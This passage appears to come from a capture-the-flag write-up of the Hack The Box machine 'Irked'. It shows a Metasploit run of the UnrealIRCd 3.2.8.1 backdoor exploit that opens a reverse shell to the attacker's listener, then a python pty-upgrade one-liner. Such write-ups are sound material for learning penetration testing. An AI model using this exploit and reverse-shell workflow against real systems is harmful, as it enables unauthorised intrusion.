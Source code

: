 ```

   Id  Name
   --  ----
   0   Automatic Target

```

So let's type "exploit", hit enter and sure enough, we get a shell back. Sweet!

```
msf exploit(unix/irc/unreal_ircd_3281_backdoor) > exploit                                                                                            

[*] Started reverse TCP double handler on 10.10.15.149:4444                                                                                          
[*] 10.10.10.117:6697 - Connected to 10.10.10.117:6697...                                                                                            
    :irked.htb NOTICE AUTH :*** Looking up your hostname...                                                                                          
[*] 10.10.10.117:6697 - Sending backdoor command...                                                                                                  
[*] Accepted the first client connection...                                                                                                          
[*] Accepted the second client connection...                                                                                                         
[*] Command: echo 4DOoaoPnPoYRBF0P;                                                                                                                  
[*] Writing to socket A                                                                                                                              
[*] Writing to socket B                                                                                                                              
[*] Reading from sockets...                                                                                                                          
[*] Reading from socket A                                                                                                                            
[*] A: "4DOoaoPnPoYRBF0P\r\n"                                                                                                                        
[*] Matching...                                                                                                                                      
[*] B is input...                                                                                                                                    
[*] Command shell session 1 opened (10.10.15.149:4444 -> 10.10.10.117:52871) at 2018-12-24 21:56:58 +0100  
```

Let's get a halfway decent pty shell.

{{< highlight python >}}
python3 -c 'import pty;pty.spawn("/bin/bash")'
ircd@irked:~/Unreal3.2$
{{< / highlight >}}

[[Top]](#top)

